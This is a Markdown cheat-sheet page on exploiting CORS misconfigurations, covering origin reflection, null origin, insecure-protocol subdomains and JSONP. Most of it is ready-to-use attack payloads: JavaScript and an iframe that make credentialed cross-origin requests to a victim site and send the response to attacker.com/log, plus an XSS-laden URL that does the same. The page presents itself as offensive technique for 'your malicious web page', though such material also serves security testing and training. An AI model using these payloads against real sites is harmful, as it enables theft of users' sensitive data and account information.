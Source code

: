 ```yaml
---
title: Cross-Origin Resource Sharing (CORS) Attack
desc: 
tags: [Burp, CORS, Web]
alts: []
render_with_liquid: false
---
```


## Origin Reflection

1. **Change Origin Value of Request Header**

    ```sh
    Origin: https://attacker.com
    ```

    ```sh
    Origin: https://vulnerable.com.attacker.com
    ```

2. **Check if the Response Allowing Cross-Origin**

    It's reflected the previous reqeust in the response header, you can exploit it.

    ```sh
    Access-Control-Allow-Origin: https://attacker.com
    ```

    ```sh
    Access-Control-Allow-Origin: https://vulnerable.com.attacker.com
    Access-Control-Allow-Credentials: true
    ```

3. **Exploit with Your Malicious Web Page**

    For example, it's hosted as "https://attacker.com/exploit" or "https://vulnerable.com.attacker.com/exploit".  
    Add the JavaScript code in the web page.  

    It shows the users' sensitive information of the target website in your server's log.

    ```html
    <script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('GET', 'https://vulnerable.com/details', true);
        req.withCredentials = true;
        req.send();

        function reqListener() {
            location = '/log?key=' + this.responseText;
        }
    </script>
    ```

<br />

## Null origin

1. **Send Request with Origin: null**

    ```sh
    Origin: null
    ```

2. **Check if the Response Allowing Cross-Origin**

    ```sh
    Access-Control-Allow-Origin: null
    Access-Control-Allow-Credentials: true
    ```

3. **Add the iframe to Your Malicious Web Page**

    For example, it's hosted as "https://attacker.com/exploit".

    ```html
    <iframe
        sandbox="allow-scripts allow-top-navigation allow-forms"
        srcdoc="<script>
            var req = new XMLHttpRequest();
            req.onload = reqListener;
            req.open('GET', 'https://vulnerable.com/details', true);
            req.withCredentials = true;
            req.send();
            
            function reqListener() {
                location = 'https://attacker.com/log?key=' + encodeURIComponent(this.responseText);
            }
            </script>"
    ></iframe>
    ```

<br />

## Insecure Protocol

1. **Send Request with Abbused Origin**

    ```sh
    Origin: http://subdomain.vulnerable.com
    ```

2. **Check if the Response Allowing Cross-Origin**

    ```sh
    Access-Control-Allow-Origin: http://subdomain.vulnerable.com
    Access-Control-Allow-Credentials: true
    ```

3. **Add the JavaScript Code to Your Malicious Web Page**

    It's hosted as "https://attacker.com/exploit"

    ```html
    <script>
        document.location="http://subdomain.vulnerable.com/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://vulnerable.com/details',true); req.withCredentials = true;req.send();function reqListener() {location='https://attacker.com/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
    </script>
    ```

<br />

## JSONP (Json with Padding)

```html
<script>
	var userinfo = function (data) {
		alert(JSON.stringify(data));
	}
</script>
<script src="https://vulnerable.com/example.php?value=userinfo" type="text/javascriipt"></script>
```